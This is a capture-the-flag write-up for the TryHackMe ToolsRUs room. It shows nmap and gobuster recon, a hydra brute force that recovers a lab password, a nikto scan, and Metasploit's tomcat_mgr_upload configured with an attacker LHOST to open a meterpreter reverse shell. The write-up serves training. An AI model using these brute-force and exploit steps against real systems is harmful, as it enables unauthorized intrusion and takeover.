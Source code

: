 ```yaml
---
description: A write-up for TryHackMe Room ToolsRUs
---
```


# ToolsRUs



<div data-full-width="false"><figure><img src=".gitbook/assets/image (5).png" alt="" width="375"><figcaption></figcaption></figure></div>



### Recon

#### Nmap

Like any other room we'll start with a simple **nmap** scan.

```
nmap -sS -Pn toolsrus.thm
```

<figure><img src=".gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### Enumeration

Lets enumerate a little more using nmap again to find out more about what's running on those ports.

```
nmap -sV -sC -p80,1234,8009,22 toolsrus.thm
```

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

From our nmap scan we can see 4 ports open, 22 for **SSH,** 80 for **HTTP** (Webserver), 1234 for **Apache TomCat**, and 8009 for **ajp13**.&#x20;

Lets check out the website and see if we can find anything there.

<figure><img src=".gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

#### Gobuster

All we get is a header hinting that there may be other subdomains that are up.

Lets do a Gobuster directory bruteforce to find them.

```
gobuster dir -u http://toolsrus.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,txt,git,env,sql,zip,tgz,pem,key -t 400

```

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

You can see we get a lot of results with **Status: 403** meaning we don't have access to them except for **/guidelines** which is also the answer to our first flag.

```
Hey <b>bob</b>, did you update that TomCat server?
```

Visiting **http://toolsrus.thm/guidelines** we find which is the answer to our second flag asking us whose name we find and it is **bob**.

For our 3rd flag we can take a look at the only webpage with a **Status: 401** meaning its: **protected**.

### Bruteforcing

#### Hydra

Taking a look at that protected page I think we can use hydra here. After some research this is the command we have to use.

```
hydra -f -vV -l bob -P /usr/share/wordlists/rockyou.txt $toolsrus.thm http-get /protected
```

\
After 5 seconds and CPU utilization peaking at a whooping 20% we get our password **bubbles**.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

After getting into **/protected** we find that the page has moved to another port, after trying a couple times, **1234** is what worked.

Here we find **Apache Tomcat/7.0.88.**

Lets run Gobuster again but on this port.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

#### Nikto

Now lets use Nikto.

```
nikto -host http://toolsrus.thm:1234/manager/html
```

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

As you can see the server is using **Apache/Coyote/1.1** and there's **5** documentations found by Nikto which is more than enough to find an exploit with Metasploit.

### Privilege Escalation

#### Metasploit

```
msf console
search tomcat type:exploit
```

I used Metasploit to look for an exploit and after doing some [research](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote#Uploading_Java_Executable_with_Metasploit) online we need to use **tomcat\_mgr\_upload**.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```
exploit/multi/http/tomcat_mgr_upload
info
```

We can use these 2 commands to select the exploit and understand the payload.

<figure><img src=".gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's set up the arguments we need.

```
set RHOSTS <YOUR_TARGET_IP>
set RPORT 1234
set HttpUsername bob
set HttpPassword bubbles
set LHOST <YOUR_ATTACKER_IP>
set LPORT 5771
set TARGET 0
```

Since it's an Apache server we need to set our target to 0 for Java.

Nice! Now we have a meterpreter reverse shell running let's see who we are and our permissions and get our flag!

<figure><img src=".gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

### Conclusion

Overall this was a super fun room to do and wasn't much of a challenge the Nikto search took awhile but I just went and made some coffee while it did it's thing.

